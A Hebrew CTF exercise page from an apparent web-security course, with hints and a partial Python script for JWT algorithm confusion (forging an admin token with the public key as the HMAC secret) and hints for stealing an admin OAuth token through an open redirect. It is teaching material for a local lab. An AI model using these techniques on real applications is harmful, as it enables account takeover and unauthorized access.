

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/2 - תקיפת אותנטיקציה מתקדמת/2.7 - אתגר CTF - אותנטיקציה/2.7 - אתגר CTF - אותנטיקציה - תרגיל/index.html · generator: mkdocs

# אתגר CTF - אותנטיקציה מתקדמת

## מבוא

אתגר זה משלב את כל הטכניקות שלמדנו בפרק 2. האתגר מדמה אפליקציה ארגונית עם מספר שכבות אותנטיקציה, וכל שלב דורש טכניקה שונה לbypass. המטרה היא להשתלט על חשבון האדמין ולקבל את ה-flag.

## שלב 1: הbypass JWT באמצעות בלבול אלגוריתמים - Algorithm Confusion

### תיאור

האפליקציה משתמשת ב-JWT לאותנטיקציה. לאחר התחברות עם חשבון רגיל, תקבלו טוקן JWT חתום ב-RS256. המטרה היא לגשת ל-`/api/admin/users`.

### רמזים

1. התחברו עם `guest:guest` וקבלו את הטוקן
2. בדקו מה נמצא ב-`/.well-known/jwks.json`
3. שימו לב לאלגוריתם בטוקן
4. נסו לשנות את האלגוריתם ל-HS256
5. השתמשו במפתח הציבורי כסוד HMAC

### שלבי הפתרון

```python
# Step 1: Log in and get a token
import requests
import jwt

TARGET = "http://challenge.ctf.local"

session = requests.Session()
resp = session.post(f"{TARGET}/login", json={
    "username": "guest",
    "password": "guest"
})
token = resp.json()['token']
print(f"[1] Token: {token}")

# Step 2: Obtain the public key
resp = session.get(f"{TARGET}/.well-known/jwks.json")
jwks = resp.json()
print(f"[2] JWKS: {jwks}")

# Step 3: Convert JWK to PEM
from jwt.algorithms import RSAAlgorithm
import json

public_key_pem = RSAAlgorithm.from_jwk(json.dumps(jwks['keys'][0]))

# Step 4: Create a token with algorithm confusion
payload = jwt.decode(token, options={"verify_signature": False})
payload['role'] = 'admin'
payload['sub'] = 'administrator'

# What's the trick here? Write the code that signs with HS256
# ...

# Step 5: Access the protected endpoint
resp = session.get(f"{TARGET}/api/admin/users", headers={
    "Authorization": f"Bearer {malicious_token}"
})
print(f"[5] Result: {resp.json()}")
```

### מה אמורים לקבל

גישה ל-`/api/admin/users` תחזיר רשימת משתמשים ובתוכם לינק לשלב הבא.

## שלב 2: הexploit OAuth לגניבת טוקן אדמין

### תיאור

מתוך רשימת המשתמשים שקיבלתם, תגלו שהאדמין משתמש ב-OAuth לניהול. יש endpoint פנימי `/oauth/authorize` עם בעיית אימות redirect_uri.

### רמזים

1. בדקו את ה-OAuth endpoint שנמצא בשלב הקודם
2. שימו לב לאופן שבו ה-redirect_uri מאומת
3. חפשו open redirect באפליקציה
4. שרשרו את ה-open redirect עם ה-OAuth flow
